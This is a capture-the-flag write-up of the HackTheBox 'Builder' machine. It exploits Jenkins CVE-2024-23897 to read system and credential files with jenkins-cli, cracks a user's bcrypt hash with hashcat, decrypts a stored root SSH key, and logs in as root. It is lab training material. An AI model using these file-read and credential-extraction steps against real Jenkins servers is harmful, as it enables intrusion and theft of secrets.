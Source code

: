 # HackTheBox - Builder

![Screenshot0](./screenshots/0.png)

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [HTTP Header](#HTTP-Header)
- [CVE-2024-23897 - Arbitrary File Read](#CVE-2024-23897---Arbitrary-File-Read)
    - [Confirmation](#Confirmation)
    - [Get Jenkins User jennifer](#Get-Jenkins-User-jennifer)
    - [Get root](#Get-root)
- [Conclusion](#Conclusion)

<br>
<br>

## Enumeration

### Portscan

It started with the usual port scan.

__Command:__ `nmap -p- -T4 -sV -sC <IP>`

![Screenshot1](./screenshots/1.png)

We see an SSH server on port 22 and a web server on port 8080.

On port 8080 we have a __Jenkins__.

![Screenshot2](./screenshots/2.png)

<br>

### HTTP Header

I wanted to know the exact version number.

And I got the exact version number by inspecting the HTTP header.

__Command:__ `curl -v <IP>:<PORT>`

![Screenshot3](./screenshots/3.png)

<br>
<br>

## CVE-2024-23897 - Arbitrary File Read

With the version number I could now search for vulnerabilities more precisely and after a quick google it became clear that this Jenkins version has an __arbitrary file read vulnerability__ (CVE-2024-23897).

There was also no shortage of exploit scripts and [information](https://medium.com/@red_darkin/how-to-replicate-jenkins-cve-2024-23897-arbitrary-file-read-vulnerability-260c8174dd94).

<br>

### Confirmation

__Command:__ `java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/etc/passwd"`

![Screenshot4](./screenshots/4.png)

<br>

### Get Jenkins User jennifer

The vuln was now confirmed, but how can we exploit this further?

I obtained various information about where jenkins stores which information.

The home directory of jenkins is `/var/jenkins_home/` which can be found in `/etc/passwd` or `/proc/self/environ`.

And with the following two files I got a `bcrypt` hash from the Jenkins user account `jennifer`.

1. `/var/jenkins_home/users/users.xml`
> contains the folder name which we need for the second query

2. `/var/jenkins_home/users/jennifer_12108429903186576833/config.xml`
> Config file with password hash

And that's how I got jennifer's password hash:

__Command:__ `/var/jenkins_home/users/jennifer_12108429903186576833/config.xml`

![Screenshot5](./screenshots/5.png)

<br>

### Crack Hash

The hash was quickly cracked with `hashcat`, mode `-m 3200` and the `fasttrack.txt` word list.

__Command:__ `hashcat -m 3200 hash.txt /usr/share/wordlists/fasttrack.txt`

![Screenshot6](./screenshots/6.png)

<br>

### Get root

Now I could log in as user __jennifer__ and had new possibilities.

![Screenshot7](./screenshots/7.png)

With Jenkins you can save credentials and SSH keys and I found one with the name __root__.

![Screenshot8](./screenshots/8.png)

I checked again where Jenkins stores these credentials and two files were important for this.

1. `/var/jenkins_home/credentials.xml`
> XML file with the credentials which are AES encrypted.

2. `/var/jenkins_home/secrets/master.key`
> Master key for AES encryption

So I fetched the `credentials.xml` file.

__Command:__ `java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ -http connect-node "@/var/jenkins_home/credentials.xml"`

![Screenshot9](./screenshots/9.png)

Afterwards I got the __Master Key__ and wanted to find out how to decrypt the key and found a post on [devops.stackexchange.com](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml) that this can be done very easily under `/scripts` with a simple function.

And there the private key was now in usable form.

![Screenshot10](./screenshots/10.png)

__Final Flags:__

I logged in with the SSH key as root user and got the user and root flag in one go.

__Command:__ `ssh root@<IP> -i <KEYFILE>`

![Screenshot11](./screenshots/11.png)

<br>
<br>

## Conclusion

This was a fun and staightforward box with the main focus on a recent Jenkins vulnerability.

Finally, a few things I'd like to note here about what this box taught me:

- for file read vulnerabilities work with `/proc/*` for information retrieval

- find out where which data is stored, configuration files of the product, etc.

- install the product local yourself to better understand the file structure
